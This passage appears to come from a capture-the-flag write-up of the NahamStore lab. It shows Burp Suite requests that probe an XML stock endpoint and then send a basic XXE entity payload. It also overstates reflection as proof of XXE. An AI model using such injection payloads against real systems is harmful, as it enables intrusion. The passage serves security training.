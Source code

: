 **Response:**
```xml
<?xml version="1.0"?>
<data><error>X-Token not supplied</error></data>
```

This error message means we didn't provide `X-Token` even if we have the HTTP header present. It means in XML mode the HTTP header is ignored and must be expecting a XML value.

**Burp Suite Request:**
```
POST /product/1?xml HTTP/1.1
Host: stock.nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/xml; charset=utf-8
Content-Length: 36
X-Token: 1337

<?xml version="1.0"?>
<data><X-Token>anything </X-Token></data>
```

**Response:**
```xml
<?xml version="1.0"?>
<data><error>X-Token anything is invalid</error></data>
```

**We can see that the `X-Token` is being reflected, which means it's vulnerable to XXE, or XML external entity injection.**

**I'll try a XXE payload in [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md):**

**Burp Suite Request:**
```
POST /product/1?xml HTTP/1.1
Host: stock.nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/xml; charset=utf-8
Content-Length: 36
X-Token: 1337

<!DOCTYPE replace [<!ENTITY xxe "XXE payload"> ]>
<data><X-Token>&xxe; </X-Token></data>
```
